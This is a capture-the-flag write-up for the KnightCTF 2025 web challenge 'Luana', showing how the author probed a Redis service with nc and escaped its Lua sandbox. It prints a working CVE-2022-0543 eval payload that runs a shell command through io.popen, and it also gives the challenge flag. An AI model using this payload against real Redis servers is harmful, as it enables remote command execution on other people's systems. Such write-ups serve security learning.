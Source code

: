 ```yaml
---
title: "Luana"
description: "Show me your skills. Read the /flag.txt"
pubDate: 2025-01-22
ctf: "KnightCTF 2025"
category: "web"
author: "sealldev"
section: "CTFs"
---
```


> Original Writeup on [seall.dev](https://seall.dev/posts/knightctf2025#luana)

We are given a webserver that notifies the service has started on port `6379`, looking into that port it is **Redis**. I'd heard of it before but never really used it. We are also told the flag is stored at `/flag.txt`.

> Redis is a source-available, in-memory storage, used as a distributed, in-memory key–value database, cache and message broker, with optional durability.

I start with some basic commands such as `set` and `get` through `nc`

```
$ nc server 6379
> set 0 1
> get 0
1
```

Looking into Redis on [HackTricks](https://book.hacktricks.wiki/en/network-services-pentesting/6379-pentesting-redis.html) I notice that it mentions a LUA Sandbox Escape that's usually patched.

Thinking of the title of the challenge **Lua**na I think I know where to look.

Looking at recent CVE's in Redis I find one that's a [Lua sandbox escape from 2022](https://ine.com/blog/cve-20220543-lua-sandbox-escape-in-redis) and make a payload according to the blog.

```
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("cat /flag.txt", "r"); local res = f:read("*a"); f:close(); return res' 0
```

Flag: `KCTF{c0n6r475_b015_n1c3_c47ch}`
